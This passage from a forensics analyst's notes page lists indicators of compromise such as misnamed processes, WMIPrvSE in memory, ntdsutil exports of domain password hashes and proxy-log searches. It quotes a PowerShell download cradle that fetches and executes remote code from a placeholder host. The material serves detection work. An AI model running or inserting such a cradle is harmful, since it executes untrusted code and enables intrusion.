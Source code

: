 <a name="change-log"></a>
## Change log
[*back to table of contents*](#b2t)

| Date | Subject | Description |
| :-------- | :--------- | :------------ |
| 1 Mar 20 | Linux Forensics | Updated the volatility section to include how to make profiles for Linux forensics. |
| 21 Jan 20 | 500 | I began to transfer knowledge areas for Windows disk forensics into my blog. Still need to work on the FTK Image part. |
| 3 Dec 19 | Start | Beginning of transfer of Word doc onto github. Completed up to SANS FOR508 exercises.|

<a name="general-iocs"></a>
## Genral IOCs
[*back to table of contents*](#b2t)

The purpose of this section is to give you an idea of what to look for that may indicate malicious activity. 

IOC = indicator of compromsie

<a name="misnamed-process"></a>
### Misnamed processes

A quick win for analysts is to identify processes found in the process list that try to appear legitimate but are misnamed.

For example, `SVCHOST` renamed to `SCVHOST`. It also useful to look at the parent process and ensure that it is what it should be. A common process table can be found [here](https://digital-forensics.sans.org/media/SANS_Poster_2018_Hunt_Evil_FINAL.pdf).

<a name="remote-processes-in-memory"></a>
### Remote processes in memory

If you happen to find the process `WMIPrvSE` in a memory image this can indicate a remote connection to the machine. If this is uncommon for the network that you are looking at then this could indicate suspicious/malicious activity. 

<a name="ps-download-cradle"></a>
### PowerShell download cradle 

Many attackers will use the following command to reach out and download other files, commonly seen in webshells.

```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```

<a name="dc-ntdsutil"></a>
### Domain controller ntdsutil

Seeing this tool being run on an Active Directory may indicate that a malicious user now has access to all domain password hashes via an exported NTDS.dit file. 

<a name="proxy-logs"></a>
### Proxy Logs

Proxy logs are a great source for information and can uncover information that may no longer, or never did, exist on a victim system. Below are examples but it is easy to adapt this approach. 

#### Google search

Google will record its search history almost like a key logger in proxy logs. Do a grep for 'google.com' and then 'complete'. 

#### Mail

```